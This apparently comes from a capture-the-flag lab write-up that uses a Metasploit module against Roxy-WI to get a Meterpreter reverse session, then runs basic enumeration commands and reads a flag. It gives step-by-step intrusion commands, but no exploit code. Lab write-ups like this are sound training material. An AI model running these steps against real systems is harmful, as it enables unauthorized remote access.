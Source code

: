 search Roxy-WI

msfconsole

![4baf9dce6e99f53acb716823d495c092.png](../../../_resources/4baf9dce6e99f53acb716823d495c092.png)

search Roxy-WI

![2ceef4f158ee32cb0e3b7ee550bc59fc.png](../../../_resources/2ceef4f158ee32cb0e3b7ee550bc59fc.png)

Here, we have found an exploit.

use 0

show options

![d80fd20caadebfeca067c330755ef92d.png](../../../_resources/d80fd20caadebfeca067c330755ef92d.png)

We only need to set <span style="color: #000000;">LHOST and RHOSTS</span>.

- LHOST is your local IP, which you can obtain by running ifconfig

![b7f26ad5e30cf65ac30732709c4f7b37.png](../../../_resources/b7f26ad5e30cf65ac30732709c4f7b37.png)

- RHOSTS is our target system.

![203c04431b5dcbaaf708b06d642a1040.png](../../../_resources/203c04431b5dcbaaf708b06d642a1040.png)

run

We have successfully gained a Meterpreter session.

getuid

sysinfo

pwdls

![ac1f0cf7b638e0467808b930899147f5.png](../../../_resources/ac1f0cf7b638e0467808b930899147f5.png)

<img alt="" class="bi jz ng c jop-noMdConv" width="700" height="100" loading="lazy" role="presentation" src="../../../_resources/1_jvTBa8_3MslD3Sepv3i94g.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 680px; max-width: 100%; height: auto;">

Before searching for the flag, let’s switch to a shell by using the shell command.

We are currently in the /app directory. Let’s navigate to the root directory by using the following command: cd /

/var/www/haproxy-wi/app

![95cc926181dfa0b812c5b086a9d1f23d.png](../../../_resources/95cc926181dfa0b812c5b086a9d1f23d.png)

After that, type the ls command to list the contents.

![c3892c04b6a33b118c9aede40628babf.png](../../../_resources/c3892c04b6a33b118c9aede40628babf.png)

<img alt="" class="bi jz ng c jop-noMdConv" width="700" height="375" loading="lazy" role="presentation" src="../../../_resources/1_r7Nbn6qLY_QUds7XxnL7KQ.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 680px; max-width: 100%; height: auto;">

And here, we have found our third flag. We can read it using the  cat command.
